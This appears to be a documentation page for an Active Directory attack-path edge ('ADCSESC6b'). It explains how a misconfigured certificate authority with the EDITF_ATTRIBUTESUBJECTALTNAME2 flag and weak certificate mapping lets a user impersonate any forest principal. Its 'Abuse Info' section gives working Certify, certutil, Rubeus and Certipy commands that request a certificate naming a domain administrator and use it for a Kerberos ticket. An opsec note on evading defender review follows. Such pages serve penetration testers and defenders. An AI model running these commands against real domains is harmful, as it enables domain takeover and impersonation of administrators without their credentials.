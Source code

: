 ---
title: ADCSESC6b
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---


<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>


They also have enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of any published certificate template. This setup allows an attacker principal to obtain a malicious certificate as another principal. There is an affected Domain Controller configured to allow weak certificate mapping enforcement, which enables the attacker principal to authenticate with the malicious certificate and thereby impersonating any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```bash
.\Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:ESC6 /altname:ForestRootDA
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 3: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:forestrootda /domain:forestroot.com /ptt
```

Step 4: Optionally verify the TGT by listing it with the klist command:

```bash
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```
If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
